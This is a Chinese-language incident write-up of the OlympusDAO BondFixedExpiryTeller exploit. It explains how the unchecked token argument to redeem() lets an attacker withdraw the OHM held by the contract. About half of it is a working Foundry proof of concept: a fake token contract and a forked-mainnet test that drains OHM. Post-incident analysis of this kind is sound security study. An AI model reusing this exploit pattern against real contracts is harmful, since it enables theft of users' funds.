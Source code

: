 # BondFixedExpiryTeller 攻击案例分析


OlympusDao BondFixedExpiryTeller 攻击案例分析

<!--more-->

## 漏洞分析

攻击发生在以太坊链https://etherscan.io/tx/0x3ed75df83d907412af874b7998d911fdf990704da87c2b1a8cf95ca5d21504cf

存在漏洞的合约地址为: [0x007FE7c498A2Cf30971ad8f2cbC36bd14Ac51156](https://etherscan.io/address/0x007FE7c498A2Cf30971ad8f2cbC36bd14Ac51156#code)

在其中的`BondFixedExpiryTeller.sol`存在`redeem`函数, 代码如下:

```solidity
    function redeem(ERC20BondToken token_, uint256 amount_) external override nonReentrant {
        if (uint48(block.timestamp) < token_.expiry())
            revert Teller_TokenNotMatured(token_.expiry());
        token_.burn(msg.sender, amount_);
        token_.underlying().transfer(msg.sender, amount_);
    }
```

这个函数的含义是"存在tokenA, 将tokenA毁掉一定数量, 并将相同数量的tokenB发送给msg.sender, 其中tokenB由tokenA的underlying()函数来指定"

其中 `token_.underlying().transfer(msg.sender, amount_);`就是直接调用的tokenX的transfer()函数将其转给msg.sender, 也就是说该合约中如果存在任何IERC20(或类似的有转账函数的币)都可以通过这句代码转给msg.sender.

合约中有哪些币呢? 在区块链浏览器上可以看到有很多[OHM](https://etherscan.io/token/0x64aa3364f17a4d01c6f1751fd97c2bd3d7e7f1d5?a=0x007FE7c498A2Cf30971ad8f2cbC36bd14Ac51156)被转到了该合约, 查看OHM的代码

```solidity
contract OlympusERC20Token is ERC20Permit, IOHM, OlympusAccessControlled {
}

interface IOHM is IERC20 {
}
```



## POC

```solidity
// SPDX-License-Identifier: SEE LICENSE IN LICENSE
pragma solidity ^0.8.10;

import "forge-std/Test.sol";

interface IERC20 {
    function balanceOf(address owner) external view returns (uint256);

    function decimals() external view returns (uint8);
}

interface IBondFixedExpiryTeller {
    function redeem(address token_, uint256 amount_) external;
}

IERC20 constant OHM = IERC20(0x64aa3364F17a4D01c6f1751Fd97C2BD3D7e7f1D5);

//buggy:
IBondFixedExpiryTeller constant BondFixedExpiryTeller = IBondFixedExpiryTeller(
    0x007FE7c498A2Cf30971ad8f2cbC36bd14Ac51156
);

contract FakeToken {
    function underlying() external pure returns (address) {
    		//指向 OHM
    		//这样redeem()函数中的
    		// token_.underlying().transfer(msg.sender, amount_);
    		// 就变成了
    		// OHM.transfer(msg.sender, amount_);
        return address(OHM);
    }

    // 绕过require
    function expiry() external pure returns (uint48 _expiry) {
        return 1;
    }

    function burn(address, uint256) external {}
}

//attack TX: https://etherscan.io/tx/0x3ed75df83d907412af874b7998d911fdf990704da87c2b1a8cf95ca5d21504cf
contract Hack is Test {
    function setUp() public {
        vm.createSelectFork("theNet", 15794360); //ETH
    }

    function testPoc() public {
        FakeToken ft = new FakeToken();
        BondFixedExpiryTeller.redeem(address(ft), 1000 * 10 ** OHM.decimals());
        emit log_named_decimal_uint(
            "OHM balance:",
            OHM.balanceOf(address(this)),
            OHM.decimals()
        );
    }
}

```




